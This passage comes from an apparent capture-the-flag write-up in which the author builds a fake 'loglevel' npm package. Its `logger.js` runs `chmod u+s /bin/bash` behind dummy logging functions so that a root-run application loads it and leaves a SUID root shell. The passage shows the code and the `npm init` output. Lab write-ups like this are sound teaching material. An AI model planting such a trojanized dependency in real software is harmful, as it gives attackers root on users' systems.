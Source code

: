 Take note that this `index.js` is run right after the modules are downloaded using `startup.sh`, so that's where our module is loaded and we can execute code as `root`.&#x20;

First, let's create the `logger.js` file:

```javascript
const cp = require("child_process")

cp.exec("chmod u+s /bin/bash");

function log(msg) {
    console.log(msg);
}
function debug(msg) {
    console.log(msg);
}
function warn(msg) {
    console.log(msg);
}
module.exports.log = log;
```

I added some dummy functions in order to make sure the application does not crash when we run it since `index.js` calls those functions from the module. Then, we can create a package based on this.

```
$ npm init
This utility will walk you through creating a package.json file.
It only covers the most common items, and tries to guess sensible defaults.

See `npm help init` for definitive documentation on these fields
and exactly what they do.

Use `npm install <pkg>` afterwards to install a package and
save it as a dependency in the package.json file.

Press ^C at any time to quit.
package name: (loglevel) 
version: 2.5.0 
description: 
entry point: (logger.js) 
test command: 
git repository: 
keywords: 
author: kavigihan
license: (ISC) 
About to write to /home/kali/htb/seventeen/loglevel/package.json:

{
  "name": "loglevel",
  "version": "2.5.0",
  "description": "",
  "main": "logger.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "kavigihan",
  "license": "ISC"
}


Is this OK? (yes)
```

